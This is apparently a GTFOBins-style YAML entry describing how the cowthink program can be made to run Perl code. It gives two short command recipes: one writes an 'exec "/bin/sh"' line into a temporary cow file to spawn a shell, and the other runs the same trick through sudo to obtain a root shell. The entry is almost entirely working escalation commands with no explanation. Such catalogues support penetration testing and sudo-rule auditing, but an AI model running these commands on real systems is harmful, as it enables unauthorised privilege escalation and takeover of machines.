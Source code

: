 ```yaml
---
description: It allows to execute [`perl`](/ptbins/perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowthink -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowthink -f $TF x
---
```

